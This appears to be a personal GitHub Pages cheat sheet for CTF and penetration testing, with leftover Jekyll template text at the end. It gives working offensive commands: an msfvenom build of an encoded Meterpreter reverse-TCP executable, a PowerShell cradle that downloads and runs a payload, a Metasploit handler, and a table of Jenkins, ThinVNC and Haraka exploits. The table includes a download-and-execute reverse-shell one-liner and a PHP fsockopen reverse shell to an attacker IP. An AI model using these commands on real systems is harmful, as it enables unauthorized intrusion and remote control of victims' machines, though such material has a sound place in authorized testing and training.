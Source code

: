 ## Pentest make easy

The purspose of this site is to make the Penetration testing and Privilege escation make easy. There are several exploits and various writeup avilable. But when it is needed its very difficult to find out the exact exploit and the writeup.

In this site I am attempting to collect most of the common exploits that appear in CTF and other exinvornments.

### [Getting Revese shell](https://github.com/dayaramb/dayaramb.github.io/tree/master/reverse_shells)

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
```

Once this is running, enter this command to start the reverse shell

```bash
Start-Process "shell-name.exe"
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run

```
### Reverse Shell Collection


### Random Exploit collection

Here I am collectign some of the random exploits and their exploitation technqiues. Later I will categorised and group them to each group.

|s.no| Application Name | Vulnerability | Scenario | Working Exploits | Reverse Shell | Writeup and Reference |
| --- | --- | --- | --- | --- | --- | --- |
|1.| Jenkins  | default username and pass |Running in Windows | [Nishang](https://github.com/samratashok/nishang) to gain initial access.| Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it:```powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port``` You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: python3 -m http.server|[jenkis writeup](https://executeatwill.com/2020/04/01/TryHackMe-Alfred-Walkthrough/) |
| 2.|ThinVNC  1.0b1  | Authentication Bypass CVE-2019-17662 | VNC running in port 3389 and can be exploited using password lookup, can be accessed using Browser|[Exploit 47519](https://www.exploit-db.com/exploits/47519). Simply using Burp suite also reveals the password here as well.  |to get reverse shell first get the password of admin user and then login. After you can use nc.exe to connect to the Kali. |[Video](https://www.youtube.com/watch?v=uNll_EYri0A)|
|3.|Haraka SMTP < 2.8.9 |Remote Command Execution |runing in different port than 25 in Linux |[Exploit 41162](https://www.exploit-db.com/exploits/41162) only need to change the port |```python 41162.py -c "php -r '\$sock=fsockopen(\"192.168.100.1\",443);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" -t root@haraka.test -m 192.168.200.1``` or bash method.  |[Similar HTB writeup](https://0xdf.gitlab.io/2019/04/13/htb-redcross.html)

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/dayaramb/dayaramb.github.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
